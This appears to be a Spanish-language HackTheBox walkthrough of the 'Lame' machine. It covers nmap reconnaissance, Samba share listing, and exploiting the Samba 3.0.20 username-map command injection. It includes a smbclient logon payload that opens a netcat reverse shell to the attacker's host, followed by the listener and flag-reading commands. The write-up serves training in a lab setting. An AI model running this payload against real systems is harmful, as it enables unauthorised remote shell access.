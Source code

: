 ```yaml
---
layout:   post
title:    "Write Up Lame."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Linux,SMB,Reverse-Shell,CVE,RCE,eJPT,Write-Up-Machine,Starting-Point]  
---
```

![list](/assets/img/lame/Captura de pantalla (139).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -sS -n -vvv -Pn 10.10.10.3 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/lame/Kali-2022-09-09-21-25-44.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que 

versiones y servicios que corren en los mismo de ahi podremos determinara posibles 

vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p21,22,139,445,3632 -sV -sC 10.10.10.3 -oN target
```

![list](/assets/img/lame/Kali-2022-09-09-21-27-12.png){:.lead width="800" height="100" loading="lazy"}


El paso anterior no es nesesario ser (root).
{:.note title="Attention"}
***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks, recopilación de información gracias a servicios de terceros.

Buscamos la version vunerable de FTP `vsftpd 2.3.4` en Google y en searchsploit `Samba 3.0.20` una vulnerabilidad asociada a la version de samba.

![list](/assets/img/lame/Kali-2022-09-09-22-14-21.png){:.lead width="800" height="100" loading="lazy"}

El exploit esta escrito en ruby pero lo podenos buscar en google en python o bash. 
{:.note}



En esta fase analizaremos la información recopilada en la fase anterior y el descubrimiento de las vulnerabilidades, ademas del reconoocimiento web.

Por lo  que podemos ver el script  tarata de autenticar un usualio con `/='nohup` 

Listamos los recursos con smbclient. 

![list](/assets/img/lame/Kali-2022-09-09-22-11-03.png){:.lead width="800" height="100" loading="lazy"}

```bash
smbclient -L //10.10.10.3 -N
```
ingrsamos al recurso compartido en la carpeta /tmp .

![list](/assets/img/lame/Kali-2022-09-09-22-11-42.png){:.lead width="800" height="100" loading="lazy"}

## Explotacion

Por lo que deducimos en el script, aki podemos ejecutar comando y usaremos logon para ejecutar una reverse shell. 

![list](/assets/img/lame/Kali-2022-09-09-22-16-24.png){:.lead width="800" height="100" loading="lazy"}

```bash
logon "/='nohup nc -c sh 10.10.14.17 443"
```
En otro terminal debe estar a la ecucha un listener es decir `nc -lvnp 443`. 
{:.note}

```bash
find -name user.txt | xargs cat
```
***
## Escalacion de privileguios

Lame no tiene escalacion de privilegios ya que ya somos root ,pero podemos bucar la flag con el siguente comado.

![list](/assets/img/lame/Kali-2022-09-09-22-33-59.png){:.lead width="800" height="100" loading="lazy"}

```bash
find -name root.txt | xargs cat
```
***
```bash
🎉 Felicitaciones ya has comprometido Lame de HackTheBox 🎉
```
{:.centered}
***
Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}